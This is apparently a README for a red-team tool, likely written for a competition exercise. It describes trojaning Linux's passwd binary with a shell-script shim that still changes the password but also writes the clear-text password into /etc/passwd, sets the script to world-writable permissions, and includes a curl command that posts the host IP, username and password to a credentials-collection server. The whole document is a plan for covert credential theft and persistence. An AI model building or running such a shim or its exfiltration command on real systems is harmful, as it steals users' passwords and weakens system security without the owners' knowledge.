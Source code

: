 ## Abstract
When blue teamers on Linux change their password via the passwd command we shim this binary to work as it normally does and change the hash in /etc/shadow. In older versions (like 1980 UNIX) the clear text password was the second field in Linux. Quickly this was realized to be a blunder as they say in chess, and nowadays this field is marked with a X placeholder. 
As a man of tradition I will reinstate this to its former glory by writing password to the /etc/password field 2 and the shadow in /etc/shadow so they dont know anything is gone. 

## Method
Shim /usr/bin/passwd via moving it to /user/bin/passwddddddddd and replacing it with /usr/bin/passwd.sh. The new sh script does the same task of hashing the password to /etc/shadow but also write the clear text to /etc/passwd.
# Sponsors
- Zach Price
- Leah Carvaris
- Brenner
- Cameron

### Potential Names
- The Renaissance
- Linux classic edition
- The gumpher
- Linux Patch 0.0.1

# Pseudo code

```Pseudo Code
mv passwd to passwdd
make a new file named passwd in the old location
chmod perms to 777

File contents:
Changeing password for $user
Current password: $password
New password: $new-password
Retype new password: $retype-password

$user in the command line arguement

Other three will be input fields

Write $new-password to /etc/passwd
Regex stupid bs to do that

use sed to insert the password hash

get the host ip and save it to $ip

curl -X POST -H "Content-Type: application/json" -d '{"ip": "$ip", "username": "$username", "password": "$password"}' https://www.pwnboard.win/creds
Ship creds to pwnboard

call old passwd (passwdd) and do a one liner

Issues you may encounter:
- sudo being required for /etc/passwd edits
- passwd one liners
```



(c) - Garrett T 2025


